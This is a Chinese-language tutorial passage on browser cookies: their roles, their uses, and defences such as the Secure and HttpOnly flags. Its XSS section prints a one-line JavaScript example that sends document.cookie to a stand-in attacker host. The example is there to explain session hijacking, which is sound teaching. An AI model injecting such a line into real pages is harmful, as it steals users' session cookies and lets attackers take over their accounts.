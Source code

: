 以新浪微博为例：
<div style="width: 80%; margin: 0 auto; text-align: center">
![未登陆状态下的cookie](unlogin-cookie.png)
</br>
未登录状态下的cookie：login_sid_t表示唯一标识
</div>

通过唯一标识与登录态的绑定，可建立游客态与用户态的关联

**存储已经登陆用户的凭证**
cookie中存储用户的唯一标识及简单token。简单token是通过某种形式与用户唯一标识的加密后得出的结果。后端取到token及用户唯一标识，可以通过检查token判断合法性及是否登陆过期判断用户是否为登录态。

**存储其他业务数据**
可存储其他业务信息，例如用户生日等

### Cookie的用途

了解Cookie的作用后，其主要用途是以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

## Cookie 的安全策略

### Cookie与XSS的关系

在http会话劫持情况下，cookie与xss的关系就显得十分亲密了。看一段代码
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

这种情况下的cookie则会发送到攻击者的网站。

#### 分析XSS攻击：

* 会话被劫持
* 通过document获取cookie

#### 解决办法：

* 会话劫持：使用cookie中Secure标识
* 不被JavaScript调用cookie：使用cookie中HttpOnly标识

#### 参数介绍

**Secure（目前Chrome、Firefox在52+版本不允许非安全的HTTP设置Cookie）**

> 一个带有安全属性的 cookie 只有在请求使用SSL和HTTPS协议的时候才会被发送到服务器。然而，保密或敏感信息永远不要在 HTTP cookie 中存储或传输，因为整个机制从本质上来说都是不安全的，比如前述协议并不意味着所有的信息都是经过加密的。

用法：

```javascript
Set-Cookie: name=gdccwxx; secure
```
